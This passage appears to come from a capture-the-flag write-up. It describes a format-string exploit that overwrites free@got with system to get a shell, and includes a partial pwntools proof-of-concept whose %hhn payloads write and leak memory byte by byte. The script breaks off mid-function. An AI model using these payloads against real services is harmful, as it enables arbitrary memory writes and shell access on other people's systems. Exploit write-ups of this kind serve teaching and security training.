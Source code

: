 We had the address of system! Now, the plan of attack was as follows:

- write `/bin/sh` to 0x13373008, which gets used in a free() call
- overwrite free@got with system
- set strcmp to the `xor eax, eax; ret` gadget
- receive shell

This *almost* worked out, but we set strcmp to 0xb7f61f60 and that turned out to be enough. We landed a shell!

The poc we used:

```python
import socket, struct, telnetlib, time
from pwn import *

context(arch='i386', os='linux')
def p(x):
        return struct.pack('<I', x)

def read1(address):
    conn.send("%64c%25$hhn")           # 0xbffff940
    conn.recv(200)
    conn.send("%"+str(256)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
    conn.recv(300)
    
    if (address & 0xff):
        conn.send("%64c%25$hhn")           # 0xbffff940
        conn.recv(200)
        conn.send("%"+str(address & 0xff)+"c%61$hhn")           # set byte at 0xbf..40 to '3c'
        conn.recv(300)

    conn.send("%65c%25$hhn")           # next byte, 0xbffff941
    conn.recv(200)
    conn.send("%"+str((address >> 8) & 0xff)+"c%61$hhn")           # set byte at 0xbf..41 to '20'
    conn.recv(300)

    conn.send("%66c%25$hhn")           # next byte, 0xbffff942
    conn.recv(200)
    conn.send("%"+str((address >> 16) & 0xff)+"c%61$hhn")           # set byte at 0xbf..42 to '37'
    conn.recv(300)

    conn.send("%67c%25$hhn")           # final byte, 0xbffff943
    conn.recv(200)
    conn.send("%"+str((address >> 24) & 0xff)+"c%61$hhn")           # set byte at 0xbf..43 to '13'
    conn.recv(300)

    conn.send("%124$s")
    
    data = conn.recv(200)
    if data[4:7] == 'Ent':
        return 0
    return ord(data[3:4])

def read4(address):
    value = 0
    for i in range(4):
        #value <<= 8
        value += read1(address+i) << (8*i)
        
    return value


def leak(address):
    conn.send("%64c%25$hhn")           # 0xbffff940
    conn.recv(200)
```